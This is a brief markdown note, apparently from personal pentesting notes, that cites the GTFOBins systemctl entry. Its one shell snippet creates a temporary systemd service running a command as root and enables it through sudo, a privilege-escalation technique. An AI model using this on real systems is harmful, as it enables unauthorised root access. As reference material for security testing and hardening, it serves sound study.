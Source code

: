 # GTFObins 

## Systemctl
https://gtfobins.github.io/gtfobins/systemctl/


```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
sudo systemctl link $TF
sudo systemctl enable --now $TF
```